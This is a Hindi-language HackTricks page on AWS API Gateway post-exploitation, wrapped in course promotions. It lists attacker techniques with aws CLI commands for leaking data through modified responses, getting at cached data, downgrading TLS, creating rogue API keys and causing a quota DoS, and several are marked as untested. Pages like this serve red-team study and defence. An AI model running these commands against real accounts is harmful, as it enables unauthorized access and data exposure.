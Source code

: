 # AWS - API Gateway पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PRs सबमिट करके।

</details>

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अनअपोज़्ड API तक पहुंचें

आप एक एंडपॉइंट बना सकते हैं [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) जिसमें सेवा `com.amazonaws.us-east-1.execute-api` हो, एंडपॉइंट को उस नेटवर्क में एक्सपोज़ करें जहां आपका एक्सेस है (संभावित रूप से एक EC2 मशीन के माध्यम से) और एक सुरक्षा समूह को सभी कनेक्शन्स की अनुमति दें।\
फिर, EC2 मशीन से आप एंडपॉइंट तक पहुंच सकेंगे और इसलिए पहले एक्सपोज़ नहीं किया गया गेटवे API को कॉल कर सकेंगे।

### उपयोग योजना DoS

**एनुमरेशन** खंड में आप देख सकते हैं कि कैसे **कुंजियों की उपयोग योजना प्राप्त करें**। अगर आपके पास कुंजी है और यह **महीने में X उपयोगों से सीमित** है, तो आप **इसे उपयोग करके डीओएस** का कारण बना सकते हैं।

**API कुंजी** को बस एक **HTTP हेडर** में शामिल करना है जिसे **`x-api-key`** कहा जाता है।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

अधिकार वाले एक हमलावर `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` की अनुमति के साथ **मौजूदा गेटवे रिस्पॉन्स को सामान्य हेडर या प्रतिक्रिया टेम्पलेट शामिल करके संवेदनशील जानकारी या दुर्भाग्यपूर्ण स्क्रिप्ट्स को लीक करने के लिए संशोधित कर सकते हैं**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक हो सकता है, दुरुपयोगी स्क्रिप्ट का निषेध या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
जरूरत परीक्षण की
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे स्टेज को संदर्भित ट्रैफिक को एक विभिन्न स्टेज पर पुनर्निर्देशित करने या कैशिंग सेटिंग्स को बदलकर कैश डेटा तक के अनधिकृत पहुंच को प्राप्त करने के लिए सक्षम हो सकता है**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफिक को बाधित या आपत्तिजनक रूप से अटकाना।

{% hint style="info" %}
जरूरत परीक्षण की
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे REST API विधि के विधि प्रतिक्रिया को संशोधित कर सकता है ताकि वह गोपनीय जानकारी लीक करने या दुरुपयोगी स्क्रिप्ट को क्रियान्वित करने के लिए कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल कर सके**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुरुपयोगी स्क्रिप्टों का क्रियान्वयन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
जांच की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **API गेटवे REST API सेटिंग को संशोधित कर सकता है ताकि लॉगिंग को अक्षम करें या न्यूनतम TLS संस्करण को बदलें, जिससे API की सुरक्षा कमजोर हो सकती है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, अनधिकृत पहुंच की अनुमति या संवेदनशील जानकारी को उजागर करने की संभावना।

{% hint style="info" %}
जांच की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` अनुमतियाँ हैं, **नए API कुंजियाँ बना सकता है, उन्हें उपयोग योजनाओं से जोड़ सकता है, और फिर इन कुंजियों का अनधिकृत पहुंच के लिए उपयोग कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को छलकरना।

{% hint style="info" %}
जांच की आवश्यकता
{% endhint %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, यानी [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
